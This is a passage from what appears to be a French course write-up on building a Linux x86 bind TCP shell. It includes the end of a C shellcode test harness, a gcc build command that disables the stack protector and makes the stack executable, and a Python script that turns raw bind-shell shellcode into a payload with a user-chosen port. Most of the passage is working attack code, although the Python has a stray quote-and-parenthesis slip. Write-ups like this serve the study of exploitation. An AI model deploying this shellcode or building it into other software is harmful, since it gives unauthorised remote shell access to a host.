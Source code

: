 ```c
         ret();
 
         return 0;
 
 }

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```



## Exécution ##

Sur le premier terminal:

<a href="../assets/images/ass1_f1.png"><img src = "../assets/images/ass1_f1.png"></a>

Sur le second terminal: 

<a href="../assets/images/ass1_f2.png"><img src = "../assets/images/ass1_f2.png"></a>

## Permettre la saisie du port ##

Pour cette partie, nous utilisons un script python.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Bind TPC shell")
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port number", required=True)
    args = parser.parse_args()
    port = args.port

    shellcode="\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68"+struct.pack("!H",port)+"\x66\x53\x89\xe1\x6a+\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");
```